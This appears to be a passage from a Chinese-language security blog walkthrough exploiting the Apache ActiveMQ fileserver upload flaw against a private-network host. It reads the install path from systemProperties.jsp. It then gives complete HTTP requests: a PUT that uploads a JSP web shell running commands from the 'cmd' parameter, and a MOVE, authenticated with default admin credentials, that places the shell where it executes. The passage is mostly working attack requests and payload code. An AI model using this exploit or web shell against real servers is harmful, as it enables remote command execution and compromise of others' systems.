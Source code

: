   
访问  

```
http://10.22.250.67:8161/admin/test/systemProperties.jsp 
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZvPZgZsuGFRy7bMckkb0RU7FbKEczRXfkS0K7hoRxB6XjW1D2Ciaic3mw/640?wx_fmt=png&from=appmsg "")  
  
  
查看ActiveMQ的绝对路径为 /opt/activemq  
  
  
构造数据包，上传后门  

```
PUT /fileserver/1.txt HTTP/1.1
Host:10.22.250.67:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1;   Win64; x64; Trident/5.0)
Connection: close
Content-Length: 327
<%@ page import=&#34;java.io.*&#34;%>
<%
 out.print(&#34;Hello</br>&#34;);
 String   strcmd=request.getParameter(&#34;cmd&#34;);
 String line=null;
 Process   p=Runtime.getRuntime().exec(strcmd);
 BufferedReader br=new   BufferedReader(new InputStreamReader(p.getInputStream()));
 while((line=br.readLine())!=null){
 out.print(line+&#34;</br>&#34;);
 }
%>
```

  
  
204状态表示写入成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZODgfZMHMnz1dVff8ibqt7ibIjgJT7zCrUKzocn2kePXg9aALozbodwQg/640?wx_fmt=png&from=appmsg "")  
  
  
然后移动1.txt后门到api目录下，就可以解析jsp文件  

```
MOVE /fileserver/1.txt HTTP/1.1
Host: 10.22.250.67:8161
Destination:file:///opt/activemq/webapps/api/1.jsp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0)   Gecko/20100101 Firefox/132.0
Accept:   text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language:   zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: JSESSIONID=1g843nd2t54jkj3phkc3uxc5
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
